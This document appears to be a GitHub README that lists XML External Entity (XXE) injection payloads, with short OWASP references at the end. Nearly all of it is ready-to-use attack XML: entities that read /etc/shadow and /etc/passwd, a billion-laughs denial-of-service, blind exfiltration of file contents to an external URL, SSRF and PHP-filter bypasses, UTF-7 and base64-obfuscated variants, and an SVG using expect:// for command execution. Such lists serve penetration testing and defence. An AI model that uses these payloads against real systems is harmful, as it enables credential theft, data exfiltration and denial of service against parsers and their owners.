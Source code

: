 ##### XML External Entity (XXE) Injection Payloads

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-basic-xml-example)XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-entity-example)XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-file-disclosure)XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-denial-of-service-example)XXE: Denial-of-Service Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-local-file-inclusion-example)XXE: Local File Inclusion Example

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-blind-local-file-inclusion-example-when-first-case-doesnt-return-anything)XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-access-control-bypass-loading-restricted-resources---php-example)XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxessrf--server-side-request-forgery--example)XXE:SSRF ( Server Side Request Forgery ) Example

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-remote-attack---through-external-xml-inclusion-exmaple)XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-utf-7-exmaple)XXE: UTF-7 Exmaple

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-base64-encoded)XXE: Base64 Encoded

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-xxe-inside-soap-example)XXE: XXE inside SOAP Example

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

###### [](https://github.com/payloadbox/xxe-injection-payload-list#xxe-xxe-inside-svg)XXE: XXE inside SVG

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

#### [](https://github.com/payloadbox/xxe-injection-payload-list#references-)References :

👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))